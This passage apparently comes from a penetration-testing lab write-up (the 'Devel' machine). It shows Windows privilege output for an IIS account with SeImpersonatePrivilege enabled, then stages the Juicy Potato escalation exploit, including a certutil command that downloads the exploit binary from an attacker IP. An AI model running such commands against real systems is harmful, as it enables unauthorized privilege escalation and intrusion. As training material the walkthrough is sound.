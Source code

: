 ```
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

```

- we create new directory `c:\Windows\Temp\scripts` so we can transfer or potato exploit
[https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)

- we can import the file using the command
`certutil.exe -urlcache -split -f http://10.10.14.11/JuicyPotato.exe JuicyPotato.exe`

![](assets/Devel_assets/Pasted%20image%2020230616141953.png)

- we can view the help page of the exploit using the `-h` flag

![](assets/Devel_assets/Pasted%20image%2020230616142022.png)
